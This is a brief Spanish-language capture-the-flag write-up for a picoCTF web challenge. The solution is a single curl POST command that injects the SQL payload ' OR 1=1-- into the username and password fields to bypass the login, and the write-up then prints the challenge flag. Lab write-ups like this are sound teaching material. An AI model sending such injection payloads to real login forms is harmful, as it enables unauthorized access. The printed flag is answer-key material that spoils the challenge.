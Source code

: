 ## Descripción 
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:52574/).
## Solución
Hay que hacer bypass en la consola de linux usando 
curl -X POST http://saturn.picoctf.net:56983/ \
  -d "username=' OR 1=1--&password=' OR 1=1--"
  para obtener la flag:
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
## Notas Adicionales 
## Referencias